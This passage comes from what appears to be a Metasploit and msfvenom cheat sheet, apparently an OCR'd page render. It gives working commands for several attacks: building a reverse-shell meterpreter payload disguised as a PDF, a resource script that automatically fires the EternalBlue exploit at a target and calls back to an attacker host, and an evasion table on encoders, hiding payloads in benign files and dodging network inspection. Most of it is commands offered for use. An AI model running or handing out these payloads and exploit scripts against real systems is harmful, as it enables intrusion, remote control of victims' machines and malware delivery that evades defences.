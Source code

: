 3. **Stealthy Payload Delivery**:  
   - Append payloads to legitimate files (e.g., PDFs):  
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -x legit_file.pdf -f exe > malicious.pdf.exe
     ```  
   - Use `Template` option in `msfvenom` for better evasion.  

4. **Automation with Resource Scripts**:  
   - Example script (`auto.rc`) for auto-exploitation:  
     ```bash
     # Launch EternalBlue exploit automatically
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS 10.0.0.5
     set PAYLOAD windows/x64/meterpreter/reverse_tcp
     set LHOST 192.168.1.2
     exploit
     ```  
   Run with: `msfconsole -r auto.rc`.  

5. **Troubleshooting**:  
   - **"Handler failed to bind"**: Check if port is in use (`netstat -tulnp`).  
   - **Session dies immediately**: Ensure payload architecture matches target (e.g., `x64` vs `x86`).  

---

### **Evasion Cheat Sheet**  

| **Technique**          | **Command Example**                                  | **Purpose**                          |
|------------------------|-----------------------------------------------------|--------------------------------------|
| Encoders               | `msfvenom ... -e x86/shikata_ga_nai -i 5`           | Obfuscate payload signature          |
| Staged Payloads        | `windows/meterpreter/reverse_tcp` (staged)          | Smaller initial footprint            |
| Template Injection     | `msfvenom ... -x /tmp/legit.exe -k`                 | Hide payload in benign file           |
| HTTPS Listener         | `set EnableStageEncoding true; set StagerVerifySSLCert true` | Evade network inspection |

---

### **Final Notes**:  
- Always test payloads in a controlled environment before real-world use.  
- Update Metasploit regularly (`msfupdate`) for the latest exploits/modules


# **MSFVenom Mega Cheat Sheet**  

`MSFVenom` is the ultimate payload generation tool within the **Metasploit Framework**, allowing penetration testers and ethical hackers to craft custom exploits for various platforms. Below is a **comprehensive cheat sheet** covering payloads, encoders, formats, evasion techniques, and real-world examples.  
